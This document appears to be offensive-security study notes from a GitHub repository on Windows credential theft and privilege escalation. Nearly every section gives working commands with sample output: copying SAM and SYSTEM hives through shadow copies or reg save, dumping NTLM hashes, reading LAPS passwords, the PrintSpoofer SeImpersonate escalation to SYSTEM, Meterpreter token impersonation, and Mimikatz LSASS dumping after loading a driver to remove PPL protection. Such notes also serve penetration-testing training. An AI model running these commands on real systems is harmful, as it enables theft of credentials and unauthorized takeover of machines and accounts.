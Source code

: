 ## Local Windows Credentials

Local Windows credentials are stored in the Security Account Manager (SAM) database password hashes using the NTLM hashing format, which is based on MD4 algorithm. The windows has a build in
Administrator account. The account is disabled by defult on window workstation since Vista. Howevere, the account is enabled on servers by default. This could be an possible attack factor.
All Windows account has a unique Security Identifier(SID) with the following format. 

```
S-R-X-Y1-Y2-Yn-1-Yn
```

```
|Comment |Description
|S       | Indicates that the string is a SID
|R       | Indicates the revision level
|X       | Indicates the identifier authority value
|Y       | Represents a series of subauthority values, where n is the number of values
```

#### Copy SAM

We can use Volume Shadow Copy Server to create a snapshot of the lical hard drive. And copy the sam from local hard drive.

Create a snapshot, and verify with vssadmin
```
C:\> wmic shadowcopy call create Volume='C:\'

C:\> vssadmin list shadows
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.
Contents of shadow copy set ID: {8e3a3a18-93a6-4b18-bc54-7639a9baf7b2}
Contained 1 shadow copies at creation time: 11/14/2019 6:53:26 AM
Shadow Copy ID: {13fb63f9-f631-408a-b876-9032a9609c22}
Original Volume: (C:)\\?\Volume{a74776de-f90e-4e66-bbeb-1e507d7fa0d4}\
Shadow Copy Volume: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

Copy sam databsae from shadows, and copy the encryption keys from system file(neeed to create s shadow copy first)
```
C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam

C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
```

We can also copy sam and system file from reg key

```
C:\> reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
C:\> reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```

Now we can decrypt and dump NTLM hash with [creddump.py](https://github.com/CiscoCXSecurity/creddump7)
```
kali@kali:~/creddump7$ python pwdump.py /home/kali/system /home/kali/sam
```

In 2015, Microsoft released Local Administrator Password Solution (LAPS), which offered a
secure and scalable way of remotely managing the local administrator password for domainjoined computers. If LAPS is in use, we should try to gain access to the clear text passwords in Active Directory.

we can use the [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) PowerShell script

```
PS C:\Tools> Import-Module .\LAPSToolkit.ps1
PS C:\Tools> Get-LAPSComputers
```
## Access Token and Elevation with Impersonation token

An access token is created by the kernel upon user authentication and contains important values that are linked to a specific user through the SID. Local administrators receive two access tokens when authenticating. The first (which is used by default) is configured to create processes as medium integrity. When a user selects the “Run as administrator” option for an application, the second elevated token is used instead. The User Account Control (UAC) mechanism links these two tokens to a single user and
creates the consent prompt.

Privileges are also included in the access token. if the present privileges are enabled or disabled and may be
dynamically updated through the Win32 AdjustTokenPrivileges API. For example, a user has SeShutdownPrivilege disabled, if the user oose to shut down the computer through the shutdown command the back-end code will enable the privilege with AdjustTokenPrivileges and then perform the required actions to power off the operating system. We can add/update accounts's permission/token though **secpol.msc**.

There are many different token privilege escalation ttp discussed in this [blog](https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/). We create a c# code [PrintSpooferNet](/10WindowsCred/PrintSpofferNet.cs) that allow us to escalate permission to system account when the current user has SeImpersonatePrivilege.

Our PrintSpooferNet code use [PrintSpoofer attack](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) that relies on windows pipes. The attack is based on the fact that the print spooler monitors printer object changes and sends change notifications to print clients by connecting to their respective named pipes. If we can create a process running with the SeImpersonatePrivilege privilege that simulates a print client,
we will obtain a SYSTEM token that we can impersonate.

A pipe is a section of shared memory inside the kernel that processes can use for communication. One process can create a pipe (the pipe server) while other processes can
connect to the pipe (pipe clients) and read/write information from/to it, depending on the permission.

we can use the [SpoolSample](https://github.com/leechristensen/SpoolSample) C# implementation written by Lee Christensen to call MS-RPRN APIs. And run our PrintSpooferNet.cs 
code to catch the pie connection.

start the connection
```
C:\user> SpoolSample.exe targetserverName targetserver/pipe/test
```
wait for connection and and steal system token to open cmd
```
C:\user> PrintSpooferNet.exe \\.\pipe\test\pipe\spoolss
```

#### Meterpreter Incognito
Meterpreter Incognito module to impersonate any logged in users and obtain code execution in their context without access to any passwords or hashes.

Load module
```
meterpreter > load incognito
Loading extension incognito...Success.
```

list all currently used tokens by unique username
```
meterpreter > list_tokens -u
Delegation Tokens Available
========================================
corp1\admin
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR
```

Impersonate
```
meterpreter > impersonate_token corp1\\admin
[+] Delegation token available
[+] Successfully impersonated user corp1\admin
meterpreter > getuid
Server username: corp1\admin
```

#### Mimikatz

If a user has SeDebugPrivilege, the user can read and modify a process under the ownership of a different user. We can use Mimikatz
privilege::debug command to enable the SeDebugPrivilege by calling AdjustTokenPrivileges.

```
C:\Tools\Mimikatz> mimikatz.exe
mimikatz # privilege::debug
Privilege '20' OK
```
After enabled the SeDebugPrivilege privilege, we can dump cached password and hashes from LSASS
```
mimikatz # sekurlsa::logonpasswords
```

Since 2012 Microsoft has developed mitigation techniques: LSA Protection and Windows Defender Credential Guard.This means that a process running at SYSTEM integrity cannot access or modify the memory space of a process executing at SYSTEM integrity with level, Protected Processes Light (PPL) enabled.

```
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```
PPL protection is controlled by a bit residing in the EPROCESS kernel object associated with the
target process. If we could obtain code execution in kernel space, we could disable the LSA
protection and dump the credentials.

this can be achieved with Mimikatz since it comes bundled with the mimidrv.sys driver. If we are running as admin, we have SeLoadDriverPrivilege privilege and the ability to load any signed drivers.
```
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
```

after loading the driver, we can disable the PPL protection, and dump the hashs
```
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 536 -> 00/00 [0-0-0]

mimikatz # sekurlsa::logonpasswords
```



